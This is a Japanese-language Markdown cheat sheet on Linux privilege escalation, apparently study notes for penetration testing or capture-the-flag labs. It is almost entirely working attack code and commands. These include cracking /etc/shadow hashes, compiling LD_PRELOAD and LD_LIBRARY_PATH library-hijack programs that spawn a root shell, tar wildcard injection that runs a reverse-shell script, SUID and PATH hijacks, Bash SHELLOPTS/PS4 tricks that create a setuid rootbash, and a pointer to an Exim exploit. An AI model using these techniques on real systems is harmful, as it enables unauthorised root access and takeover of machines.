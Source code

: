 # Linux Privilege Escalation2

## 機密ファイルのパーミッション確認
### /etc/shadow（read 権限あり）
```
echo '[HASH]' | tee hash.txt
hashid -m '[HASH]'
john --format=[FORMAT] --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

### /etc/shadow（write 権限あり）
新しいパスワードハッシュの生成
```
mkpasswd -m sha-512 [NEW PASSWORD]
```
### /etc/passwd（write 権限あり）
新しいパスワードの生成
```
openssl passwd [NEW PASSWORD]
```

## Sudo
### root 権限で実行できるコマンドを確認
```
sudo -l
```

### ユーザー環境から継承された環境変数を確認
```
sudo -l | grep -iF env_keep
```

#### LD_PRELOAD が存在する場合
1. C言語のプログラムを共有ライブラリ(soファイル)にコンパイル
```
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so preload.c
```

preload.c
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
        unsetenv("LD_PRELOAD");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```

2. コマンドの実行(*1)
```
sudo LD_PRELOAD=/tmp/preload.so [COMMAND]
```

#### LD_LIBRARY_PATH が存在する場合
1. コマンド実行時に読み込むライブラリを確認(*2)
```
LD_LIBRARY_PATH=/tmp strace [COMMAND] 2>&1 | grep -iE "open|access|no such file"
```

2. C言語のプログラムを共有ライブラリ(soファイル)にコンパイル
```
gcc -o /tmp/[SHARED OBJECT] -shared -fPIC library_path.c
```

library_path.c
```
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        unsetenv("LD_LIBRARY_PATH");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```

3. コマンドの実行(*1)
```
sudo LD_LIBRARY_PATH=/tmp [COMMAND]
```

#### Memo
LD_PRELOAD : プログラム（コマンド）実行の際に最初にロードする共有オブジェクトを指定する環境変数。  
LD_LIBRARY_PATH : 最初に共有オブジェクトを検索しに行くディレクトリを指定する環境変数。  
setresuid() : Sets real and effective user IDs of the calling process

#### Annotation
*1 使用するコマンドは、root 権限で実行できるもの。  
*2 偽装するライブラリ名は、/tmp/[ファイル名]で読み込みされることを確認する。strace コマンドに LD_LIBRARY_PATH=/tmp を付与して実行することで、正規のディレクトリとは別に tmp ディレクトリにもライブラリを探しに行く。しかしライブラリによっては tmp ディレクトリに探しにいかないものもあるため注意。

## Cron Jobs
### ファイルのパーミッション

#### Crontabの確認
```
cat /etc/crontab
```

#### ディレクトリ / ファイルの書き込み権限の確認
```
ls -la [DIRECTORY / FILE]
```

#### ファイルのフルパスの確認
```
locate [FILE]
```

### 環境変数 PATH
ファイルが絶対パスで指定されていない（ファイル名のみ）ことが前提。

```

```

### ワイルドカード(*1)
Cronに限らず、スクリプト内で実行されるコマンド（tarなど）の引数として*が使われ、かつコマンド実行先のディレクトリに書き込み権限がある場合。[FILE] にはリバースシェルを実行するスクリプトを渡す。
```
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=[FILE]
```

### Annotation
*1 touchコマンドの引数には絶対パスを渡さないと、--checkpoint=1, --checkpoint-action=exec=[FILE] がコマンドの引数と解釈されてエラーになる。

## SUID / SGID 実行ファイル
実行対象となるプログラム（コマンド）は全て、SUID, SGIDのいずれかが付与されていることが前提。

### 既存の脆弱性の利用
Exim <= 4.84-3（SUID / SGIDがセットされている必要あり。もし存在すれば [CVE-2016-1531](https://www.exploit-db.com/exploits/39535) を使う。）

```
find / -type f -name exim 2>/dev/null
```

### 共有オブジェクトの利用
SUID / SGIDがセットされており、スクリプトの置き換え、またはスクリプトの書き換えが可能な場合（ディレクトリの書き込み、またはファイルの書き込みが許可されている場合）
```
strace [FILE] 2>&1 | grep -iE "open|access|no such file"
gcc -shared -fPIC -o /tmp/[SHARED OBJECT] libcalc.c
./[FILE]
```

libcalc.c
```
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
        setuid(0);
        system("/bin/bash -p");
}
```

### 環境変数
プログラム内部で実行されているコマンドが、コマンド名で指定されている（絶対パスでない）場合

```
strings [FILE]
gcc -o /tmp/[COMMAND] service.c
PATH=/tmp:$PATH [FILE]
```

service.c
```
int main() {
        setuid(0);
        system("/bin/bash -p");
}
```

### シェルの仕様 1
Bash が ver < 4.2-048 の場合に利用可能

Bash バージョン確認
```
/bin/bash --version
```

```
strings [FILE]
function [COMMAND ABSOLUTE PATH] { /bin/bash -p; }
export -f [COMMAND ABSOLUTE PATH]
./[FILE]
```

### シェルの仕様 2
Bash が ver < 4.4 の場合に利用可能

```
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' [FILE]
/tmp/rootbash -p
```
